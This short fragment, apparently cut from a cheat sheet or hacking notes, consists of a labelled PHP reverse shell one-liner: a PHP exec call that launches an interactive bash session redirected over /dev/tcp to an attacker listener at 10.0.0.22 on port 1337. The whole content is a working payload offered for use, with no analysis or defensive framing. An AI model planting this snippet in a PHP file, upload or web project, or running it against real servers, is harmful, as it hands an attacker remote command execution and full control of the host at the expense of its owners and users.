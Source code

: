 Reverse shell one liner:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.22/1337 0>&1'");
```
